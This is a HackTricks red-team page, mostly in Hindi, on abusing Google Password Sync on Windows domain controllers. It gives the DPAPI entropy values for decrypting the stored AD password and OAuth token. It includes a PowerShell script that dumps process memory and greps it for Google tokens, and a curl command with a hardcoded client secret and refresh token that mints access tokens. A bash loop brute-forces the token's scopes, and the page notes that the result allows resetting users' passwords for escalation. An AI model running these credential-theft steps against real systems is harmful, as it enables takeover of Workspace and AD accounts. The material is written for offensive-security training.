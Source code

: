 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह वह बाइनरी और सेवा है जो Google उपयोगकर्ताओं के पासवर्ड को **AD** और Workspace के बीच **सिंक** रखने के लिए प्रदान करता है। हर बार जब एक उपयोगकर्ता AD में अपना पासवर्ड बदलता है, तो इसे Google पर सेट किया जाता है।

यह `C:\Program Files\Google\Password Sync` में स्थापित होता है जहाँ आप इसे कॉन्फ़िगर करने के लिए बाइनरी `PasswordSync.exe` और `password_sync_service.exe` (सेवा जो चलती रहेगी) पा सकते हैं।

### GPS - Configuration

इस बाइनरी (और सेवा) को कॉन्फ़िगर करने के लिए, इसे **Workspace में एक सुपर एडमिन प्रिंसिपल तक पहुंच देना आवश्यक है**:

* Google के साथ **OAuth** के माध्यम से लॉगिन करें और फिर यह **पंजीकरण में एक टोकन (एन्क्रिप्टेड) स्टोर करेगा**
* केवल GUI के साथ डोमेन कंट्रोलर्स में उपलब्ध
* **Workspace उपयोगकर्ताओं को प्रबंधित करने** के लिए कुछ **GCP सेवा खाता क्रेडेंशियल्स** (json फ़ाइल) देना
* बहुत बुरा विचार क्योंकि ये क्रेडेंशियल्स कभी समाप्त नहीं होते और इसका दुरुपयोग किया जा सकता है
* Workspace पर SA को एक्सेस देना बहुत बुरा विचार है क्योंकि SA GCP में समझौता किया जा सकता है और Workspace पर पिवट करना संभव होगा
* Google इसे GUI के बिना डोमेन नियंत्रित करने के लिए आवश्यक करता है
* ये क्रेडेंशियल्स भी पंजीकरण में स्टोर होते हैं

AD के संबंध में, इसे वर्तमान **एप्लिकेशन संदर्भ, गुमनाम या कुछ विशिष्ट क्रेडेंशियल्स** का उपयोग करने के लिए इंगित करना संभव है। यदि क्रेडेंशियल्स विकल्प चुना गया है, तो **उपयोगकर्ता नाम** एक फ़ाइल में **डिस्क** के अंदर स्टोर किया जाता है और **पासवर्ड** **एन्क्रिप्टेड** होता है और **पंजीकरण** में स्टोर किया जाता है।

### GPS - Dumping password and token from disk

{% hint style="success" %}
ध्यान दें कि [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GPS** का पता लगाने, कॉन्फ़िगरेशन के बारे में जानकारी प्राप्त करने और **यहां तक कि पासवर्ड और टोकन को डिक्रिप्ट करने** में सक्षम है।
{% endhint %}

फ़ाइल **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** में यह संभव है कि कॉन्फ़िगरेशन का एक भाग जैसे **`baseDN`** AD के लिए कॉन्फ़िगर किया गया है और **`username`** जिनके क्रेडेंशियल्स का उपयोग किया जा रहा है।

पंजीकरण में **`HKLM\Software\Google\Google Apps Password Sync`** में **एन्क्रिप्टेड रिफ्रेश टोकन** और **एन्क्रिप्टेड पासवर्ड** AD उपयोगकर्ता के लिए (यदि कोई हो) पाया जा सकता है। इसके अलावा, यदि टोकन के बजाय कुछ **SA क्रेडेंशियल्स** का उपयोग किया जाता है, तो यह भी संभव है कि उन्हें उस पंजीकरण पते में एन्क्रिप्टेड पाया जाए। इस पंजीकरण के अंदर **मान** केवल **प्रशासकों** द्वारा **पहुँच योग्य** होते हैं।

एन्क्रिप्टेड **पासवर्ड** (यदि कोई हो) कुंजी **`ADPassword`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक कॉन्फ़िगर किया था और इस **एंट्रॉपी** का उपयोग करना चाहिए जब आप **`CryptUnprotectData`** का उपयोग कर रहे हों: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

एन्क्रिप्टेड टोकन (यदि कोई हो) कुंजी **`AuthToken`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक कॉन्फ़िगर किया था और इस **एंट्रॉपी** का उपयोग करना चाहिए जब आप **`CryptUnprotectData`** का उपयोग कर रहे हों: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
इसके अलावा, इसे **`0123456789abcdefghijklmnopqrstv`** शब्दकोश के साथ base32hex में भी एन्कोड किया गया है।

एंट्रॉपी मानों को टूल का उपयोग करके पाया गया। इसे **`CryptUnprotectData`** और **`CryptProtectData`** के लिए कॉल की निगरानी करने के लिए कॉन्फ़िगर किया गया था और फिर टूल का उपयोग `PasswordSync.exe` को लॉन्च और मॉनिटर करने के लिए किया गया जो कॉन्फ़िगर किए गए पासवर्ड और ऑथ टोकन को शुरू में डिक्रिप्ट करेगा और टूल **दोनों मामलों में उपयोग की गई एंट्रॉपी के लिए मान** दिखाएगा:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

ध्यान दें कि इन APIs के लिए कॉल के इनपुट या आउटपुट में **डिक्रिप्टेड** मानों को भी देखना संभव है (यदि किसी बिंदु पर Winpeas काम करना बंद कर दे)।

यदि पासवर्ड सिंक **SA क्रेडेंशियल्स के साथ कॉन्फ़िगर किया गया था**, तो यह भी पंजीकरण में कुंजी के अंदर **`HKLM\Software\Google\Google Apps Password Sync`** में स्टोर किया जाएगा।

### GPS - Dumping tokens from memory

GCPW की तरह, `PasswordSync.exe` और `password_sync_service.exe` प्रक्रियाओं की मेमोरी को डंप करना संभव है और आप रिफ्रेश और एक्सेस टोकन (यदि पहले से उत्पन्न हो चुके हैं) पा सकेंगे।\
मुझे लगता है कि आप AD कॉन्फ़िगर किए गए क्रेडेंशियल्स भी पा सकते हैं।

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, आप एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध नहीं कर सकते क्योंकि आप केवल **उन स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GPS के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
https://www.googleapis.com/auth/admin.directory.user
```
जो वही है जो आपको मिलता है यदि आप कोई दायरा निर्दिष्ट नहीं करते हैं।

{% hint style="danger" %}
इस दायरे के साथ आप **एक मौजूदा उपयोगकर्ता का पासवर्ड संशोधित कर सकते हैं ताकि विशेषाधिकार बढ़ सके**।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो करें**।**
* हैकिंग ट्रिक्स साझा करें द्वारा [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
